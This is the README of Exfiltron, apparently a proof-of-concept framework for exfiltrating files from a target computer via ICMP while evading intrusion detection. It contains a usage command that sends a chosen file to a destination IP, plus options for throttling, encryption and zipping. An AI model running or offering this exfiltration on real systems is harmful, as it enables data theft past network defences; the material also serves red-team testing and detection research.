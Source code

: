 # Exfiltron
Data Exfiltration Framework 

!!!! Please be aware that is project is in progress and may have parts missing
!!!!

## What does it do?
This framework is meant as a proof of concept for exfiltrating data 
from a target computer. YOU SHOULD NOT USE THIS ON ANYTHING YOU DO 
NOT OWN OR HAVE EXPLICIT PERMISSION TO USE IT ON. Exfiltron is meant to 
evade IDS in order to get data back to you.

## Things you must have before extraction time
* You must have [python2.7+](https://www.python.org) installed on both the
server and the client side
* You must have [scapy](http://www.secdev.org/projects/scapy) 
([download](http://scapy.net)) installed on both the server and the client side
    * If you wish to encrypt your file before sending it out, make sure you have
the [cryptography](https://cryptography.io/en/latest) python package which
should be installed when you install scapy

## Sounds great! How do I try it out?
First, get it on your local machine. There are two major files: the client
file (exfiltron.py) and the server file. The client file must be placed on
a target machine along with any modules you wish to use for your extraction
method. SET UP THE SERVER SIDE INFORMATION HERE. After exfiltron.py has
been placed on the target machine, run the following command on the target:

`python exfiltron.py exfiltrationMethod -f filename -d destinationIP [-aehiqt]`

* -h is help
* -a (--data-per-packet) is the amount of data you want to fit into each packet.
The default is the number of bytes that normally sit in that packet while the
min amount is 1 byte and the max amount is the MTU minus the headers and trailers
on the packet. The amount should be specified after the option (ex. -a 64)
* -t (--time) specifies the amount of time to wait between after sending a packet
before sending another packet. This numerical value should be given in terms of
seconds. If no value is explicitly set, exfiltron defaults the value to 5 seconds
* -q (--quiet) By default, a progress bar is shown displaying
numPacketsSent/numTotalPacketsToSend. This option silences any output relating
to the progress bar
* -e (--encrypt) Setting this flag will result in your data being encrypted 
with AES-256 using CTR mode. Please note that this should only be used if the
attacker executes exfiltron.py through a secure channel
* -i (--integrity-check) Exfiltron hashes the chosen file and sends, as the
first packet, the resulting hash. After receiving all of the files, the
attacker's side then pieces the file back together and runs the same hash
again and compares the two. Please note that the hash will be placed in the
first packet sent and will ignore the setting placed after the -a 
(--data-per-packet) flag. All other packets will be sized with respect to
the -a flag. The hash in use is SHA-256
* -z (--zip) Exfiltron zips the file and sends the zipped version to the server.
WARNING: IF A PIECE OF DATA IS LOST DURING TRANSMISSION, EXFILTRON WILL BE
UNABLE TO PIECE THE FILE BACK TOGETHER

## Methods of Exfiltration
Currently, the following methods of exfiltration are available/in progress:
* ICMP

#### Original Authors
* Adam Sowden
* Andrew Steiner
* Thomas Daniels
